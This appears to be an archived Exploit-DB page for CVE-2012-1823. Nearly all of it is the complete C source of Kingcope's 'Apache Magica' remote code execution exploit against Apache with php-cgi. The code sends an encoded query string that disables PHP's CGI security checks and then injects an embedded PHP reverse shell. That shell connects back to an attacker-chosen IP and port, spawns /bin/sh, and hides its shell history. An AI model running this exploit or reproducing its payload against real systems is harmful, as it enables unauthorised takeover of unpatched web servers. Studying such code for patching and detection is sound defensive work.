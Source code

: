 * Apache / PHP 5.x Remote Code Execution Exploit
  :PROPERTIES:
  :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit
  :END:

- published date: 2013-10-30 19:58
- keywords: ["apache", "internet", "php", "security", "swaac"]
- source: http://www.exploit-db.com/exploits/29290/

#+BEGIN_QUOTE
  * Apache / PHP 5.x Remote Code Execution Exploit
    :PROPERTIES:
    :CUSTOM_ID: apache-php-5.x-remote-code-execution-exploit-1
    :END:
#+END_QUOTE

--------------

#+BEGIN_QUOTE

  - EDB-ID: 29290
  - CVE: [[http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1823][2012-1823]]
  - OSVDB-ID: N/A
  - Author: Kingcope
  - Published: 2013-10-29
  - Verified: [[http://www.exploit-db.com/images/cancel.png]]\\
  - Exploit Code: [[/download/29290][[[http://www.exploit-db.com/images/46.png]]]]
  - Vulnerable App: N/A
#+END_QUOTE

--------------

#+BEGIN_QUOTE
  ** Rating
     :PROPERTIES:
     :CUSTOM_ID: rating
     :END:

  Overall: (0.0)
#+END_QUOTE

**** This is a code execution bug in the combination of Apache and PHP.
     :PROPERTIES:
     :CUSTOM_ID: this-is-a-code-execution-bug-in-the-combination-of-apache-and-php.
     :END:

#+BEGIN_QUOTE
  #+BEGIN_SRC C
      /* Apache Magica by Kingcope */
      /* gcc apache-magika.c -o apache-magika -lssl */
      /* This is a code execution bug in the combination of Apache and PHP.
      On Debian and Ubuntu the vulnerability is present in the default install
      of the php5-cgi package. When the php5-cgi package is installed on Debian and
      Ubuntu or php-cgi is installed manually the php-cgi binary is accessible under
      /cgi-bin/php5 and /cgi-bin/php. The vulnerability makes it possible to execute
      the binary because this binary has a security check enabled when installed with
      Apache http server and this security check is circumvented by the exploit.
      When accessing the php-cgi binary the security check will block the request and
      will not execute the binary.
      In the source code file sapi/cgi/cgi_main.c of PHP we can see that the security
      check is done when the php.ini configuration setting cgi.force_redirect is set
      and the php.ini configuration setting cgi.redirect_status_env is set to no.
      This makes it possible to execute the binary bypassing the Security check by
      setting these two php.ini settings.
      Prior to this code for the Security check getopt is called and it is possible
      to set cgi.force_redirect to zero and cgi.redirect_status_env to zero using the
      -d switch. If both values are set to zero and the request is sent to the server
      php-cgi gets fully executed and we can use the payload in the POST data field
      to execute arbitrary php and therefore we can execute programs on the system.
      apache-magika.c is an exploit that does exactly the prior described. It does
      support SSL.
      /* Affected and tested versions
      PHP 5.3.10
      PHP 5.3.8-1
      PHP 5.3.6-13
      PHP 5.3.3
      PHP 5.2.17
      PHP 5.2.11
      PHP 5.2.6-3
      PHP 5.2.6+lenny16 with Suhosin-Patch
      Affected versions
      PHP prior to 5.3.12
      PHP prior to 5.4.2
      Unaffected versions
      PHP 4 - getopt parser unexploitable
      PHP 5.3.12 and up
      PHP 5.4.2 and up
      Unaffected versions are patched by CVE-2012-1823.
      */
      /*    .
           /'\rrq rk
       .  // \\  .
      .x.//fco\\-|-
       '//cmtco\\zt
       //6meqrg.\\tq
      //_________\\'
      EJPGQO
      apache-magica.c by Kingcope
      */

      #include <stdio.h>
      #include <stdlib.h>
      #include <unistd.h>
      #include <getopt.h>
      #include <sys/types.h>
      #include <stddef.h>
      #include <openssl/rand.h>
      #include <openssl/ssl.h>
      #include <openssl/err.h>
      #include <netdb.h>
      #include <sys/socket.h>
      #include <netinet/in.h>

      typedef struct {
          int sockfd;
          SSL *handle;
          SSL_CTX *ctx;
      } connection;

      void usage(char *argv[])
      {
        printf("usage: %s <--target target> <--port port> <--protocol http|https> "
        "<--reverse-ip ip> <--reverse-port port> [--force-interpreter interpreter]\n",
         argv[0]);
        exit(1);
      }

      char poststr[] = "POST %s?%%2D%%64+%%61%%6C%%6C%%6F%%77%%5F"
       "%%75%%72%%6C%%5F%%69%%6E%%63%%6C%%75%%64%%65%%3D%%6F%%6E+%%2D%%64"
       "+%%73%%61%%66%%65%%5F%%6D%%6F%%64%%65%%3D%%6F%%66%%66+%%2D%%64+%%73"
       "%%75%%68%%6F%%73%%69%%6E%%2E%%73%%69%%6D%%75%%6C%%61%%74%%69%%6F%%6E"
       "%%3D%%6F%%6E+%%2D%%64+%%64%%69%%73%%61%%62%%6C%%65%%5F%%66%%75%%6E%%63"
       "%%74%%69%%6F%%6E%%73%%3D%%22%%22+%%2D%%64+%%6F%%70%%65%%6E%%5F%%62"
       "%%61%%73%%65%%64%%69%%72%%3D%%6E%%6F%%6E%%65+%%2D%%64+%%61%%75%%74"
       "%%6F%%5F%%70%%72%%65%%70%%65%%6E%%64%%5F%%66%%69%%6C%%65%%3D%%70%%68"
       "%%70%%3A%%2F%%2F%%69%%6E%%70%%75%%74+%%2D%%64+%%63%%67%%69%%2E%%66%%6F"
       "%%72%%63%%65%%5F%%72%%65%%64%%69%%72%%65%%63%%74%%3D%%30+%%2D%%64+%%63"
       "%%67%%69%%2E%%72%%65%%64%%69%%72%%65%%63%%74%%5F%%73%%74%%61%%74%%75%%73"
       "%%5F%%65%%6E%%76%%3D%%30+%%2D%%6E HTTP/1.1\r\n"
       "Host: %s\r\n"
       "User-Agent: Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26"
       "(KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25\r\n"
       "Content-Type: application/x-www-form-urlencoded\r\n"
       "Content-Length: %d\r\n"
       "Connection: close\r\n\r\n%s";
      char phpstr[] = "<?php\n"
      "set_time_limit(0);\n"
      "$ip = '%s';\n"
      "$port = %d;\n"
      "$chunk_size = 1400;\n"
      "$write_a = null;\n"
      "$error_a = null;\n"
      "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"
      "$daemon = 0;\n"
      "$debug = 0;\n"
      "if (function_exists('pcntl_fork')) {\n"
      "  $pid = pcntl_fork();    \n"
      "  if ($pid == -1) {\n"
      "      printit(\"ERROR: Can't fork\");\n"
      "      exit(1);\n"
      "  }\n"
      "  if ($pid) {\n"
      "      exit(0);\n"
      "  }\n"
      "  if (posix_setsid() == -1) {\n"
      "      printit(\"Error: Can't setsid()\");\n"
      "      exit(1);\n"
      "  }\n"
      "  $daemon = 1;\n"
      "} else {\n"
      "  printit(\"WARNING: Failed to daemonise.\");\n"
      "}\n"
      "chdir(\"/\");\n"
      "umask(0);\n"
      "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"
      "if (!$sock) {\n"
      "  printit(\"$errstr ($errno)\");\n"
      "  exit(1);\n"
      "}\n"
      "$descriptorspec = array(\n"
      "   0 => array(\"pipe\", \"r\"),\n"
      "   1 => array(\"pipe\", \"w\"),\n"
      "   2 => array(\"pipe\", \"w\")\n"
      ");\n"
      "$process = proc_open($shell, $descriptorspec, $pipes);\n"
      "if (!is_resource($process)) {\n"
      "  printit(\"ERROR: Can't spawn shell\");\n"
      "  exit(1);\n"
      "}\n"
      "stream_set_blocking($pipes[0], 0);\n"
      "stream_set_blocking($pipes[1], 0);\n"
      "stream_set_blocking($pipes[2], 0);\n"
      "stream_set_blocking($sock, 0);\n"
      "while (1) {\n"
      "  if (feof($sock)) {\n"
      "      printit(\"ERROR: Shell connection terminated\");\n"
      "      break;\n"
      "  }\n"
      "  if (feof($pipes[1])) {\n"
      "      printit(\"ERROR: Shell process terminated\");\n"
      "      break;\n"
      "  }\n"
      "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"
      "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"
      "  if (in_array($sock, $read_a)) {\n"
      "      if ($debug) printit(\"SOCK READ\");\n"
      "      $input = fread($sock, $chunk_size);\n"
      "      if ($debug) printit(\"SOCK: $input\");\n"
      "      fwrite($pipes[0], $input);\n"
      "  }\n"
      "  if (in_array($pipes[1], $read_a)) {\n"
      "      if ($debug) printit(\"STDOUT READ\");\n"
      "      $input = fread($pipes[1], $chunk_size);\n"
      "      if ($debug) printit(\"STDOUT: $input\");\n"
      "      fwrite($sock, $input);\n"
      "  }\n"
      "  if (in_array($pipes[2], $read_a)) {\n"
      "      if ($debug) printit(\"STDERR READ\");\n"
      "      $input = fread($pipes[2], $chunk_size);\n"
      "      if ($debug) printit(\"STDERR: $input\");\n"
      "      fwrite($sock, $input);\n"
      "  }\n"
      "}\n"
      "\n"
      "fclose($sock);\n"
      "fclose($pipes[0]);\n"
      "fclose($pipes[1]);\n"
      "fclose($pipes[2]);\n"
      "proc_close($process);\n"
      "function printit ($string) {\n"
      "  if (!$daemon) {\n"
      "      print \"$string\n\";\n"
      "  }\n"
      "}\n"
      "exit(1);\n"
      "?>";

      struct sockaddr_in *gethostbyname_(char *hostname, unsigned short port)
      {
       struct hostent *he;
       struct sockaddr_in server, *servercopy;

       if ((he=gethostbyname(hostname)) == NULL) {
        printf("Hostname cannot be resolved\n");
        exit(255);
       }

       servercopy = malloc(sizeof(struct sockaddr_in));
       if (!servercopy) {
          printf("malloc error (1)\n");
          exit(255);
       }
       memset(&server, '\0', sizeof(struct sockaddr_in));
       memcpy(&server.sin_addr, he->h_addr_list[0],  he->h_length);
       server.sin_family = AF_INET;
       server.sin_port = htons(port);
       memcpy(servercopy, &server, sizeof(struct sockaddr_in));
       return servercopy;
      }

      char *sslread(connection *c)
      {
        char *rc = NULL;
        int received, count = 0, count2=0;
        char ch;

        for(;;)
        {
         if (!rc)
          rc = calloc(1024, sizeof (char) + 1);
         else
          if (count2 % 1024 == 0) {
           rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
          }
          received = SSL_read(c->handle, &ch, 1);
          if (received == 1) {
           rc[count++] = ch;
           count2++;
           if (count2 > 1024*5)
            break;
          }
          else
           break;
         }
        return rc;
      }

      char *read_(int sockfd)
      {
        char *rc = NULL;
        int received, count = 0, count2=0;
        char ch;

        for(;;)
        {
         if (!rc)
          rc = calloc(1024, sizeof (char) + 1);
         else
          if (count2 % 1024 == 0) {
           rc = realloc(rc, (count2 + 1) * 1024 * sizeof (char) + 1);
          }
          received = read(sockfd, &ch, 1);
          if (received == 1) {
           rc[count++] = ch;
           count2++;
           if (count2 > 1024*5)
            break;
          }
          else
           break;
         }
        return rc;
      }

      void main(int argc, char *argv[])
      {
        char *target, *protocol, *targetip, *writestr, *tmpstr, *readbuf=NULL,
         *interpreter, *reverseip, *reverseportstr, *forceinterpreter=NULL;
        char httpsflag=0;
        unsigned short port=0, reverseport=0;
        struct sockaddr_in *server;
        int sockfd;
        unsigned int writesize, tmpsize;
        unsigned int i;
        connection *sslconnection;
        printf("-== Apache Magika by Kingcope ==-\n");
        for(;;)
        {
           int c;
           int option_index=0;
           static struct option long_options[] = {
             {"target", required_argument, 0, 0 },
             {"port", required_argument, 0, 0 },
             {"protocol", required_argument, 0, 0 },
             {"reverse-ip", required_argument, 0, 0 },
             {"reverse-port", required_argument, 0, 0 },
             {"force-interpreter", required_argument, 0, 0 },
             {0, 0, 0, 0 }
            };

           c = getopt_long(argc, argv, "", long_options, &option_index);
           if (c < 0)
              break;

           switch (c) {
           case 0:
            switch (option_index) {
             case 0:
              if (optarg) {
               target = calloc(strlen(optarg)+1, sizeof(char));
               if (!target) {
                printf("calloc error (2)\n");
                exit(255);
               }
               memcpy(target, optarg, strlen(optarg)+1);
              }
              break;
             case 1:
              if(optarg)
               port = atoi(optarg);
              break;
             case 2:
              protocol = calloc(strlen(optarg)+1, sizeof(char));
              if (!protocol) {
               printf("calloc error (3)\n");
               exit(255);
              }
              memcpy(protocol, optarg, strlen(optarg)+1);
              if (!strcmp(protocol, "https"))
               httpsflag=1;
              break;
             case 3:
              reverseip = calloc(strlen(optarg)+1, sizeof(char));
              if (!reverseip) {
               printf("calloc error (4)\n");
               exit(255);
              }
              memcpy(reverseip, optarg, strlen(optarg)+1);
              break;
             case 4:
              reverseport = atoi(optarg);
              reverseportstr = calloc(strlen(optarg)+1, sizeof(char));
              if (!reverseportstr) {
               printf("calloc error (5)\n");
               exit(255);
              }
              memcpy(reverseportstr, optarg, strlen(optarg)+1);
              break;
             case 5:
              forceinterpreter = calloc(strlen(optarg)+1, sizeof(char));
              if (!forceinterpreter) {
               printf("calloc error (6)\n");
               exit(255);
              }
              memcpy(forceinterpreter, optarg, strlen(optarg)+1);
              break;
             default:
              usage(argv);
            }
            break;

           default:
            usage(argv);
           }
        }

        if ((optind < argc) || !target || !protocol || !port ||
            !reverseip || !reverseport){
          usage(argv);
        }

        server = gethostbyname_(target, port);
        if (!server) {
         printf("Error while resolving hostname. (7)\n");
         exit(255);
        }

        char *interpreters[5];
        int ninterpreters = 5;
        interpreters[0] = strdup("/cgi-bin/php");
        interpreters[1] = strdup("/cgi-bin/php5");
        interpreters[2] = strdup("/cgi-bin/php-cgi");
        interpreters[3] = strdup("/cgi-bin/php.cgi");
        interpreters[4] = strdup("/cgi-bin/php4");

        for (i=0;i<ninterpreters;i++) {
         interpreter = interpreters[i];
         if (forceinterpreter) {
           interpreter = strdup(forceinterpreter);
         }
         if (forceinterpreter && i)
          break;
         printf("%s\n", interpreter);

         sockfd = socket(AF_INET, SOCK_STREAM, 0);
         if (sockfd < 1) {
           printf("socket error (8)\n");
           exit(255);
         }

         if (connect(sockfd, (void*)server, sizeof(struct sockaddr_in)) < 0) {
          printf("connect error (9)\n");
          exit(255);
         }
         if (httpsflag) {
          sslconnection = (connection*) malloc(sizeof(connection));
          if (!sslconnection) {
           printf("malloc error (10)\n");
           exit(255);
          }
          sslconnection->handle = NULL;
          sslconnection->ctx = NULL;

          SSL_library_init();

          sslconnection->ctx = SSL_CTX_new(SSLv23_client_method());
          if (!sslconnection->ctx) {
           printf("SSL_CTX_new error (11)\n");
           exit(255);
          }

          sslconnection->handle = SSL_new(sslconnection->ctx);
          if (!sslconnection->handle) {
           printf("SSL_new error (12)\n");
           exit(255);
          }
          if (!SSL_set_fd(sslconnection->handle, sockfd)) {
           printf("SSL_set_fd error (13)\n");
           exit(255);
          }

          if (SSL_connect(sslconnection->handle) != 1) {
           printf("SSL_connect error (14)\n");
           exit(255);
          }
         }

         tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
         tmpstr = (char*)calloc(tmpsize, sizeof(char));
         snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);

         writesize = strlen(target) + strlen(interpreter) +
           strlen(poststr) + strlen(tmpstr) + 64;
         writestr = (char*)calloc(writesize, sizeof(char));
         snprintf(writestr, writesize, poststr, interpreter,
           target, strlen(tmpstr), tmpstr);

         if (!httpsflag) {
           write(sockfd, writestr, strlen(writestr));
           readbuf = read_(sockfd);
         } else {
           SSL_write(sslconnection->handle, writestr, strlen(writestr));
           readbuf = sslread(sslconnection);
         }

         if (readbuf) {
           printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);
         } else {
          printf("read error (15)\n");
          exit(255);
         }
        }
        exit(1);
      }
  #+END_SRC
#+END_QUOTE
